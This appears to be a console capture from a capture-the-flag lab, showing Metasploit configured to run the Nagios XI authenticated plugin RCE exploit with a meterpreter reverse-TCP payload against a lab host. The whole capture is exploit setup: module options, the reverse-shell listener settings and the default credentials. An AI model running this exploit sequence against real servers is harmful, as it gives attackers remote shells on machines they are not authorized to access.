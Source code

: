 [msf](Jobs:0 Agents:0) >> use 9
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) >> show options

Module options (exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FINISH_INSTALL  false            no        If the Nagios XI installation has not been completed, try to do so. This includes signing the license agreement.
   PASSWORD                         yes       Password to authenticate with
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                           yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT           80               yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on al
                                              l addresses.
   SRVPORT         8080             yes       The local port to listen on.
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI       /nagiosxi/       yes       The base path to the Nagios XI application
   URIPATH                          no        The URI to use for this exploit (default is random)
   USERNAME        nagiosadmin      yes       Username to authenticate with
   VHOST                            no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux (x64)


[msf](Jobs:0 Agents:0) exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) >> set LHOST my.addr
LHOST => my.addr
[msf](Jobs:0 Agents:0) exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) >> set rhosts hack.thm
rhosts => hack.thm
[msf](Jobs:0 Agents:0) exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) >> set password admin
password => admin
[msf](Jobs:0 Agents:0) exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) >> check
